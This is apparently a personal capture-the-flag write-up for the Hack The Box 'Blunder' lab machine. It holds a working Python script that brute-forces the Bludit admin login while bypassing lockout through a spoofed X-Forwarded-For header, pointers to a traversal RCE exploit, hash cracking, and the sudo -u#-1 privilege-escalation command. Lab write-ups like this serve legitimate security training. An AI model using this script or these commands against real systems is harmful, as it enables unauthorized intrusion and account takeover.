 ```yaml
---
title: Blunder - Easy
categories: htb 
excerpt: | 
  Linux machine with a vulnerable page. 

feature_text: |
  ## Blunder - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-generator: Blunder
| http-title: Blunder | A blunder of interesting facts
| http-server-header: Apache/2.4.41 (Ubuntu)
``` 

So we can investigate the main page of this ip. Then we can use wfuzz to find some other directories of it and we will see 'http://10.10.10.191/admin' and it is a login page. 

Try with the most common credentials but unfortunatly you cannot access to it.

We can search for txt extension with wfuzz and it will has a todo.txt page with a valid username that we can use late.


### Scripting in python
A very commom practice, when we have a lot of word in the main page, is to use the word of the own page to guest the password. There is a utility named 'cewl' which will create a dictionary.
  'cewl -w dictionary.txt http://10.10.10.191'

Now we can do a script in python to crack the password:



``` python
#!/usr/bin/python3
from pwn import *
import signal, os, time, requests, pdb, re

# Variables globales
file_name = "dictionary.txt"
main_url = "http://10.10.10.191/admin/login"

def handler(signum, frame):
    print("\n\n[!] Saliendo del programa.")
    sys.exit( -1 )

def bruteForce():
    s = requests.session()
    f = open(file_name, 'r')
    p1 = log.progress("Brute Force")
    p1.status("Starting attack")
    time.sleep(2)
    count = 1

    for passwd in f.readlines():
        passwd = passwd.strip('\n')
        p1.status( "Testing password [%d/349]: %s" % (count, passwd))
        r = s.get(main_url)
        token = re.findall(r'name="tokenCSRF" value="(.*?)"', r.text)[0]
        
        headers = {
            'X-Forwarded-For': '%s' % passwd
        }
        post_data = {
            'tokenCSRF': token,
            'username': 'fergus',
            'password': '%s' % passwd,
            'save': ''
        }
        r = s.post(main_url, data=post_data, headers=headers)
        
        if( "Username or password incorrect" not in r.text ):
            p1.success( "Password is %s" % passwd )
            break
        count += 1

signal.signal(signal.SIGINT, handler) 

if __name__ == "__main__":
  bruteForce()
```


We will get a valid credential...

Now it is time to get a vulnerability that let us remote command execution (RCE): Searchsploit Bludit and select Directory traversal. Follow this script and you are finally inside of the machine.

### Privilege scalation
Take a look of where is the user.txt flag. `find / \-name user.txt 2> /dev/null`

So it seems that we have to migrate to hugo. Let's take a look of the bludit content and there is a 'users.php' file which content a hash. We can crack it online with crackstation.net

Migrate to hugo and then search for privilege: `sudo -l`
>User hacker may run the following commands on kali:
>   (ALL, !root) /bin/bash

sudo -u#-1 /bin/bash



